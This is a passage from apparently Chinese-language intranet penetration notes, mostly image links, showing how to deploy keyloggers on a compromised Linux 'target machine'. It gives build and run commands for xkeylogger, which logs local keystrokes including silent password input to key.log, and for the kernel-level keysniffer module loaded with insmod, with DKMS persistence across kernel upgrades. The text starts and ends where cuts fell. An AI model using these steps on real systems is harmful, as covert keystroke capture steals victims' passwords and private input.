 ![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/Intranet_Penetration/media/149940800d35b165202348801364262d.png)

重启sshd服务即可

![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/Intranet_Penetration/media/dab9b6bb819bc35cd71b0e0a24f324d3.png)

**键盘记录器(xkeylogger无需root权限)**

仅能记录本地键盘输入(包括vim编辑、静默输入等)，ssh远程登入情况无法记录

apt-get install libxi-dev

git clone https://github.com/cyrus-and/xkeylogger

make static

![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/Intranet_Penetration/media/394649120fbdd72d031f92ac3c7f542e.png)

目标机器:

chmod +x xkeylogger

./xkeylogger \> key.log

![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/Intranet_Penetration/media/56882f32f913424f3483531ba3601513.png)

**keysniffer内核级键盘记录**

Linux kernel mode debugfs keylogger

安装内核头文件:

![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/Intranet_Penetration/media/5e68544d2597fb8c9293718fa7c710e8.png)

![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/Intranet_Penetration/media/5cf68391520072078b458f228df83447.png)

![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/Intranet_Penetration/media/aeec9951c1dbc8e5f1f6469337affca2.png)

编译安装:

apt install make

apt install gcc

![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/Intranet_Penetration/media/96c09abaf9862b0fb28ce245b29961ad.png)

插入模块到内核:

insmod kisni.ko

(卸载模块 rmmod kisni)

DKMS support

If you have DKMS installed, you can install keysniffer in such a way that it
survives kernel upgrades. It is recommended to remove older versions of
keysniffer by running dkms remove -m kisni -v OLDVERSION --all as root. To
install the new version, run:
